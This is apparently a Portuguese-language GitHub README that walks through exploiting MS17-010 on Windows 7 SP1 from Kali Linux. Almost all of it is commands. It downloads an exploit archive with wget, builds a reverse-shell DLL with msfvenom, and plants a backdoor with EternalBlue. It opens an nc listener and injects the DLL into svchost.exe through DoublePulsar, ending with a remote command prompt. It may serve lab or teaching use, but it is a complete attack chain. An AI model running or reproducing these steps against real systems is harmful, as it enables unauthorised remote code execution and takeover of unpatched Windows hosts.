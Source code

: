 # MS17-010
Explorar Windows 7 Ultimate 7601 Service Pack 1 (32 bits) usando Kali Linux.

#

### Preparando a máquina atacante:
Adicione a arquitetura i386 (para computadores 32 bits) no repositório.
```
dpkg --add-architecture i386
```
```
apt-get update
```
<br>

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks.
```
apt-get install libwine wine wine32 winetricks
```
<br>

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
```
<br>

Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
```
wget http://www.100security.com.br/downloads/ms17-010.tar.gz
```
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/deps/
```
### Exploração
Gerando payload reverse shell non-staged com **msfvenom**
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```
- IP da máquina atacante: 172.20.1.53
- Porta que irá receber a conexão reversa: 8080
<br>

Instalando backdoor no servidor alvo com EternalBlue:
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```
- IP do servidor alvo: 172.16.1.145
<br>

Preparando a máquina atacante para receber a conexão reversa:
```
rlwrap nc -vnlp 8080
```
<br>

Enviando shellcode para injetar DLL com DoublePulsar:
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll
```
- IP do servidor alvo: 172.16.1.145
<br>
 
Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comandos do Windows:
![image](https://user-images.githubusercontent.com/76706456/172243037-3162bf1f-c6ad-45d6-a841-f9cd5cbc5c1b.png)
